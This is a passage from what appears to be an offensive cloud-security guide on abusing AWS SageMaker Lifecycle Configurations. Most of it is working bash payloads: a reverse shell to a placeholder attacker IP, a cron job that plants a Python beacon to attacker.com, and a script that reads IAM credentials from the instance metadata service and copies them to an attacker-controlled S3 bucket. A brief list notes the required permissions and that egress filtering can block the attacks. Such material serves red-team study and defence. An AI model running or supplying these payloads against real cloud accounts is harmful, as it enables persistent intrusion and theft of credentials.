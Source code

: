 ```bash
--studio-lifecycle-config-app-type CodeEditor \
--studio-lifecycle-config-content $(base64 -w0 editor_persist.sh)
```
### Critical Info:
* Attaching LCCs at the domain or space level impacts all users or applications within scope.
* Requires higher permissions (sagemaker:UpdateDomain, sagemaker:UpdateSpace) typically more feasible at space than domain level.
* Network-level controls (e.g., strict egress filtering) can prevent successful reverse shells or data exfiltration.

## Reverse Shell via Lifecycle Configuration

SageMaker Lifecycle Configurations (LCCs) execute custom scripts when notebook instances start. An attacker with permissions can establish a persistent reverse shell.

### Payload Example:
```
#!/bin/bash
ATTACKER_IP="<ATTACKER_IP>"
ATTACKER_PORT="<ATTACKER_PORT>"
nohup bash -i >& /dev/tcp/$ATTACKER_IP/$ATTACKER_PORT 0>&1 &
```

## Cron Job Persistence via Lifecycle Configuration

An attacker can inject cron jobs through LCC scripts, ensuring periodic execution of malicious scripts or commands, enabling stealthy persistence.

### Payload Example:
```
#!/bin/bash
PAYLOAD_PATH="/home/ec2-user/SageMaker/.local_tasks/persist.py"
CRON_CMD="/usr/bin/python3 $PAYLOAD_PATH"
CRON_JOB="*/30 * * * * $CRON_CMD"

mkdir -p /home/ec2-user/SageMaker/.local_tasks
echo 'import os; os.system("curl -X POST http://attacker.com/beacon")' > $PAYLOAD_PATH
chmod +x $PAYLOAD_PATH

(crontab -u ec2-user -l 2>/dev/null | grep -Fq "$CRON_CMD") || (crontab -u ec2-user -l 2>/dev/null; echo "$CRON_JOB") | crontab -u ec2-user -
```
## Credential Exfiltration via IMDS (v1 & v2)

Lifecycle configurations can query the Instance Metadata Service (IMDS) to retrieve IAM credentials and exfiltrate them to an attacker-controlled location.

### Payload Example:
```bash
#!/bin/bash
ATTACKER_BUCKET="s3://attacker-controlled-bucket"
TOKEN=$(curl -X PUT "http://169.254.169.254/latest/api/token" -H "X-aws-ec2-metadata-token-ttl-seconds: 21600")
ROLE_NAME=$(curl -s -H "X-aws-ec2-metadata-token: $TOKEN" http://169.254.169.254/latest/meta-data/iam/security-credentials/)
curl -s -H "X-aws-ec2-metadata-token: $TOKEN" http://169.254.169.254/latest/meta-data/iam/security-credentials/$ROLE_NAME > /tmp/creds.json

# Exfiltrate via S3*

aws s3 cp /tmp/creds.json $ATTACKER_BUCKET/$(hostname)-creds.json
```